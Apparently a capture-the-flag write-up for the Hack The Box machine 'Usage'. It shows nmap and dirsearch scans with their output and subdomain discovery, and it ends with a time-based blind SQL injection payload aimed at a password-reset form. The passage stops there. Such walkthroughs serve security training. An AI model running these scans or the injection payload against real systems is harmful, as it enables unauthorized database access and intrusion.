 # Usage Write-up

<img src="https://labs.hackthebox.com/storage/avatars/23e804513a47e8f20bc865d0419946e1.png" width="200" height="200">

## Nmap

`nmap -sC -sV -p- usage.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Daily Blogs
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

`nmap -sC -sV -p- usage.htb`

    PORT      STATE    SERVICE        VERSION
    22/tcp    open     ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
    |_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
    80/tcp    open     http           nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://usage.htb/
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    2403/tcp  filtered taskmaster2000
    3814/tcp  filtered neto-dcs
    4117/tcp  filtered hillrserv
    5902/tcp  filtered vnc-2
    8045/tcp  filtered unknown
    13399/tcp filtered unknown
    17530/tcp filtered unknown
    17551/tcp filtered unknown
    20279/tcp filtered unknown
    20295/tcp filtered unknown
    20541/tcp filtered unknown
    21060/tcp filtered unknown
    22856/tcp filtered unknown
    39584/tcp filtered unknown
    41538/tcp filtered unknown
    43643/tcp filtered unknown
    44553/tcp filtered rbr-debug
    58049/tcp filtered unknown
    58201/tcp filtered unknown
    58432/tcp filtered unknown
    58715/tcp filtered unknown
    58989/tcp filtered unknown
    64790/tcp filtered unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `usage.htb` to `/etc/hosts`

## Dirsearch

`python3 dirsearch.py -u http://usage.htb/ --exclude-status 403,404,400,401,503 -o dir`

    Target: http://usage.htb/
    
    [07:05:38] Starting:                                                                                                                  
    [07:07:13] 302 -  334B  - /dashboard/  ->  http://usage.htb/login           
    [07:08:21] 200 -   24B  - /robots.txt                                       
                                                                                 
    Task Completed                                                                                                                        
                                         
http://usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/3483821e-2005-4105-aabf-409e5547619e)

Create accaount and login

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c090840-9d55-4309-8c41-275ec38baf12)

In the source page we found `admin.usage.htb` subdomain

![image](https://github.com/zer00d4y/writeups/assets/128820441/d7bf8248-0170-465e-bbed-da9b7542902b)

Add `admin.usage.htb` to `/etc/hosts`

http://admin.usage.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/769b529d-c707-4708-b870-cf16138a1efa)

Let's try to reset the password and save the request to Burp

![image](https://github.com/zer00d4y/writeups/assets/128820441/b7181ba7-3777-45a9-8af2-93fbc4dcf724)

    ' AND 4720=BENCHMARK(5000000,MD5(0x4866544a))-- SwMa---

